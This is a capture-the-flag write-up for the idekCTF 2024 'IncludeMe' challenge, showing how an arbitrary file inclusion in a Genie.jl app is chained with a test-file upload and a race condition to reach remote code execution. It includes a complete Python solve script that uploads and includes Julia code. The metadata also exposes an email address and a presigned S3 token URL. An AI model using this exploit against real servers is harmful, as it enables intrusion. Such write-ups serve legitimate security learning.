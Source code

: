 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466UKERXP2K%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T133625Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDYaCXVzLXdlc3QtMiJGMEQCIGJ6RNTICnmcCbjzUo9EY6DrLawZMU81S9GlciApA9iuAiAHOzOIdiq19OrTdfZID9VXxlNtkMC6KF3VEWmT2TiHUiqIBAjv%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMEymaw6uQ8sN2qjEAKtwDhaDvUyPtoCy71lpH%2BVANhtj11W0xBZm%2FNnISfSgrlRIwqMFQIxuKKNIxn053Nzd4MSZHtsDHP8YAjE8yfmh9AFJ%2F9xYsn5MS22aLKVpYfRr%2F34QG4emRYBUbX1Wd0yW2OnLEcaHC3kOx9Xb2mFASWU2hYKoqM8lzH5EuE69MBtEa28MmOWli%2Fjq6QSANe92QGpKaXWs2i%2FIuNmnQG9hbwD3GN9rJe2C%2BJtohKjYUBZcgkjoW1Kj8PQsmHJp572hy2Lc%2BOvsOYuuARTaxCDMZTNqRprHmJN5sWsnCueEYzAqR2eH1A3FYjs2FS9sQQPKw2lDxCMmdYsCUyMVStxwPfHClfBpUfJEVDW8%2Fcx5qEEkQG0J1A4Egg5bdoR5gH%2Fj019HB%2FAgcxSsRT3RsaDE%2BJ0x8yRE2u2J6tnWnOab9VKrlGpMpjidZie%2Bi3YTrzCOp22hQrKug31ChAsRMj3DGB6H7UpSMrZntoSQvcTAyuha0LlOYWn0PPaADXPvaq6Rn7jRRT7cW4mu16sXGR8lseYeRS%2Fj4zVdxTf0HRYbvfXbQHt7pzOQikvnNlD3n8nY21KanNL%2FtseJosJ0bkTAdrk1SCuI7CAAj7wG5kgcuVtQk4xb2G%2BA%2FZ0PdHhEwqfLBwQY6pgFxn7i6gx%2FGMuOgPZX9UPn30pJFdRLZ%2BqmLS5iickkb1IvOQvbaCPNM2c8yzZ%2FZcsQ6DnK1dNTCmuhe4nNkq5Ft83n559seTEUfA28Cn0F1LMhpTwafNdgresUBM4pIMfsQIKRsADY6MK3NbxQEVFsgtRsobpoNBDLNcveB1QSMhDQuStFc3%2BtoTQEhFvQZtMnc69tBb8fYuTZq1pqpRJBoKGYuqtEo\&X-Amz-Signature=c9385e32758706ad224d061505afeb8cbea267144ee53a4ac65fb29fafa7fa15\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)

